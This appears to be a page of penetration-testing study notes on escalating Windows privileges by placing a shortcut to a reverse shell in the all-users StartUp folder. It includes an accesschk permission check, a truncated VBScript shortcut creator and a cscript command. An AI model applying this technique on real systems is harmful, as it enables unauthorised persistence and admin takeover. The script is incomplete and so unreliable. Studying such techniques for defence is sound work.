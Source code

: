 # Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users:

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

{% hint style="info" %}
Note that shortcut files \(.lnk\) must be used. The following VBScript can be used:
{% endhint %}

```text
to create a shortcut file:
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.Target
```

#### reverse.lnk is our reverse shell executable.

![](../../../../.gitbook/assets/image%20%28158%29.png)

Use accesschk.exe to check permissions on the StartUp directory:

```text
\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

![](../../../../.gitbook/assets/image%20%28157%29.png)

Note that the BUILTIN\Users group has write access to this directory.

Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

![](../../../../.gitbook/assets/image%20%28161%29.png)

Run the script using cscript:

```text
cscript CreateShortcut.vbs
```

![](../../../../.gitbook/assets/image%20%28162%29.png)

no we wait for the admin to login:

![](../../../../.gitbook/assets/image%20%28156%29.png)

